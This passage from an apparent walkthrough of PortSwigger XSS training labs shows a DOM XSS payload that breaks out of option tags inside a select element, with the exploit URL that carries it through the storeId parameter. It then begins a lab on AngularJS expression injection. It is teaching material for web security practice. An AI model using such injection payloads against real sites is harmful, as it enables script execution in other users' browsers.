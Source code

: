 

![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element/2.png)


To escape the option tags we can use the payload:

```
</option><script>alert(1)</script><option selected>
```

```
/product?productId=4&storeId=</option><script>alert(1)</script><option%20selected>
```



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search%20inside%20a%20select%20element/3.png)

11 DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
=====================================================================================

This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS
expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML
nodes containing the ng-app attribute (also known as an AngularJS directive).
When a directive is added to the HTML code, you can execute JavaScript
expressions within double curly braces. This technique is useful when angle
brackets are being encoded.

To solve this lab, perform a cross-site scripting attack that executes an
AngularJS expression and calls the alert function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/dom-based

There is a search function:

![img](media/714dab7f8eb555b545b1e70d830df0ae.png)
